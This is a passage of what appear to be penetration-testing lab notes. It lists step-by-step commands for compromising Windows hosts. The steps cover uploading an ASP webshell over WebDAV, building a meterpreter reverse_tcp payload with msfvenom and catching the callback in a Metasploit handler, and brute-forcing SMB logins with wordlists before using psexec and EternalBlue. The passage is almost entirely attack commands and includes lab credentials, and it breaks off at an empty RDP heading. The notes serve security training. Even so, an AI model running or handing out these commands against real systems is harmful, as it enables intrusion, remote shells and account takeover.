                 - dav:/webdav/> put /usr/share/webshells/asp/webshell.asp - file upload using cadaver
                    
                - Access the backdoor: [http://10.3.26.115/webdav/webshell.asp](http://10.3.26.115/webdav/webshell.asp) ****
                    
                - Now type your command on the box and run , find flag
                    
                    ```
                    WebDAV with Metasploit 
                    ```
                    
                - `nmap -p80 --script http-enum -sV 10.4.18.218`
                    
                - `davtest -auth bob:password_123321 -url <http://10.4.18.218/webdav`>
                    
                - `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.80.4 LPORT=1234 -f asp > shell.asp`
                    
                - `cadaver <http://10.4.18.218/webdav`>
                    
                - `put /root/shell.asp`
                    
                - `service postgresql start && msfconsole`
                    
                - `use exploit/multi/handler`
                    
                - `set payload windows/meterpreter/reverse_tcp`
                    
                - `set LHOST 10.10.80.4`
                    
                - `set LPORT 1234`
                    
                - `run`
                    
                - Browser [http://10.4.18.218/webdav/shell.asp](http://10.4.18.218/webdav/shell.asp)
                    
                - Got meterpreter session > sysinfo,getuid
                    
            - Exploiting SMB with Psexec
                
                psexec is the lightweight telnet replacement developed by Microsoft. This allows you to execute processes on remote windows syatem using any users cred
                
                Psexec authentication is performed via SMB
                
                `nmap -sV -sC 10.4.16.36`
                
                `msfconsole`
                
                `search smb_login use auxiliary/scanner/smb/smb_login set RHOSTS 10.4.16.36 set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt set VERBOSE false exploit` - cred found
                
                [`psexec.py](<http://psexec.py/>) [Administrator@10.4.16.36](<mailto:Administrator@10.4.16.36>) cmd.exe`
                
                `msfconsole search psexec use exploit/windows/smb/psexec set RHOSTS 10.4.16.36 set SMBUser Administrator set SMBPass qwertyuiop exploit`
                
                EternalBlue Exploit
                
                `search eternalblue use exploit/windows/smb/ms17_010_eternalblue set RHOSTS 192.168.31.131 exploit`
                
            - Exploiting RDP
                